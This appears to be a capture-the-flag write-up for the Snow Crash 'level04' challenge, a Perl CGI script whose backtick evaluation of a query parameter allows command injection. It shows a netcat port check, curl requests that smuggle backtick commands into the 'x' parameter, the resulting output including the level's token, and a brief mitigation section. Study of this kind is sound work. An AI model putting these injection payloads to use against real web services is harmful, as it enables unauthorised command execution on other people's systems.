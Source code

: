 # Level04 - Snow Crash Exploit

## Description

While exploring the `level04` directory, I found a file called `level04.pl`. Executing it produced the following output:

```
Content-type: text/html
```

Upon inspecting the script, I noticed a comment referencing `localhost:4747`, suggesting that a service is running on this port.

## Reconnaissance

To check if anything was listening on port 4747, I used a verbose netcat scan:

```bash
nc -zv localhost 4747
```

The output confirmed a service was running:

```
Connection to localhost 4747 port [tcp/*] succeeded!
```

## Vulnerability Analysis

Reviewing the script, I saw that it expects a value passed in the `x` parameter, which is then processed by the `x()` function. The script uses backticks to evaluate and print the argument, making it vulnerable to command injection.

## Exploitation Steps

1. **Test Command Execution:**

   Passing a command substitution in the `x` parameter using `curl`:

   ```bash
   curl localhost:4747/?x="\`/usr/bin/whoami\`"
   ```

   Output:

   ```
   flag04
   ```

2. **Get the Flag:**

   Execute the `getflag` binary via command injection:

   ```bash
   curl localhost:4747/?x="\`/bin/getflag\`"
   ```

   Output:

   ```
   Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
   ```

## Mitigation

To prevent this vulnerability, user input should never be evaluated or executed directly. Always sanitize and validate input, and avoid using backticks or `eval` with user-supplied data.

## Flag